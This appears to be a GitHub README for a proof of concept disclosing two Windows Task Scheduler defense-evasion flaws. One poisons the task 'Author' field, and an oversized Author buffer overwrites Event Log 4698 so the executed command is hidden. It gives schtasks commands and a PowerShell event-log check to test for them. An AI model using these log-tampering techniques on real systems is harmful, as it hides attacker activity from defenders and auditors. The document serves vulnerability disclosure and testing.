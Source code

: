 # Task Scheduler Logs Poisoning & Tampering
By [Ruben Enkaoua](https://x.com/rubenlabs) and [Cymulate](https://cymulate.com/)
<br>
<br>
[Original Blog: Task Scheduler New Vulnerabilities](https://cymulate.com/blog/task-scheduler-new-vulnerabilities-for-schtasks-exe/)
<br>
<br>

#### Description
<br>
Two new Defense Evasion techniques have been discovered.<br><br>
The first vulnerability is affecting the Task metadatas and the Event Log 4698 "Task Created", allowing an attacker to create a task based on an XML file and poison the "Author" entry to arbitrary data.<br>
The second vulnerability allows to leverage an unlimited allocated buffer in "Author" task metadata, which is handled further by the Windows Event Log, overwriting the whole log description.
<br>
<br>

#### Requirements
<br>

- Batch Logon rights on the Task Principal for the task to run (Otherwise the metadata / event log is poisoned / overwritten but the task won't run)
- The password of the task principal, if the user creating the task is not admin or doesn't have SeImpersonate privileges
<br>

#### Command
<br>

> Task Poisoning (Metadata / Event Log)
```bash
# Run the script to check if the INJECTED-DATA author name has been set in the task description
schtasks /create /tn poc /xml poc-poisoning.xml /ru <username> /rp <password> /f

# Check if the data has been injected by querying the task. If the author name is INJECTED-DATA the target is vulnerable
schtasks /query /tn poc /xml | findstr /i author
```
<br>

> Task Event Log Overflow
```bash
# Run the script to check if the +3500 bytes payload has been injected in the 4698 Event Log
# If the Log Type is not activated on your machine and you still want to test it, activate it in:
# Local Security Policy -> Advanced Audit Policy Configuration -> System Audit Policies - Local Group Policy Object -> Object Access -> Audit Other Object Access Events -> Select Success
schtasks /create /tn poc /xml poc-overflow.xml /ru <username> /rp <password> /f
```
<br>

> Log Check
```powershell
# Check the task log by running the following powershell command. If the <RegistrationInfo> tag is containing a 3500 bytes buffer but not the command executed and the arguments, the target is vulnerable.
Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4698} | Where-Object { $_.Message -like '*poc*' } |  Select-Object -First 1 | Format-List TimeCreated, Message
```
